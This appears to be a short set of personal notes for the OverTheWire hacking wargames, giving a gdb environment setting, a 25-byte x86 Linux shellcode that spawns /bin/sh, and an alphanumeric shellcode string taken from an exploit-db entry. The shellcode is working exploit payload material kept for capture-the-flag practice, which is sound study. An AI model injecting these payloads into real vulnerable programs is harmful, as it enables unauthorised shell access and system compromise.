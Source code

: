 # over-the-wire
hacking

# gdb settings
```
(gdb) set exec-wrapper env -u LINES -u COLUMNS
```

# shellcode
https://dhavalkapil.com/blogs/Shellcode-Injection/
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
25 bytes

# alphanumeric shellcode
https://www.exploit-db.com/exploits/13424
```
LLLLXPY3E01E01u03u0fXh8eshXf5VJPfhbifhDefXf5AJfPDTYhKATYX5KATYPQTUX3H01H01X03X0YRX3E01E03U0Jfh2GfXf3E0f1E0f1U0fh88fX0E1f1E0f3E0fPTRX49HHHQfPfYRX2E00E0BRX0E02E02L0z0L0zYRX4j4aGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG
```
(requires %ebp to be something real)
